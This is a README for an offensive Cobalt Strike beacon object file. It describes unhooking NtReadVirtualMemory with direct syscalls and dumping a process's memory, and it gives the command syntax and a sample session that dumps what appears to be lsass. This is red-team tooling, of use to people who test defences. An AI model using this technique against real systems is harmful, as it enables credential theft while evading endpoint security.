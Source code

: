 ## Static Syscalls Process Dump BOF (64-bit only)

Beacon object file to:
- Unhook NtReadVirtualMemory function.
- Create process memory dump using MiniDumpWriteDump function to specified (or default) location

Syscalls generated using @jthuraisamy's [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

This is effectively a rough port of @Outflank's [Dumpert](https://github.com/outflanknl/Dumpert) tool. All credit to them for that.

## Compile

```
make
```

## Usage

Aggressor script included with the following command:
- `static_syscalls_dump PID output_file` - Creates a dump for the specified PID at the supplied location.
- `static_syscalls_dump PID` - Not providing an output location will default to "C:\Windows\Temp\PID-[target_pid].dmp" 

> NOTE: BOF is for 64-bit use only.


### Example Output
```
beacon> static_syscalls_dump 4337 C:\Users\user\Desktop\lsass.dmp
[*] Syscalls Process Dump BOF (@ajpc500)
[+] host called home, sent: 8904 bytes
[+] received output:
Using Syscalls for Windows 10 or Server 2016, build number 19041
Dumping PID 4337 to file: C:\Users\user\Desktop\lsass.dmp

[+] received output:
Success!
```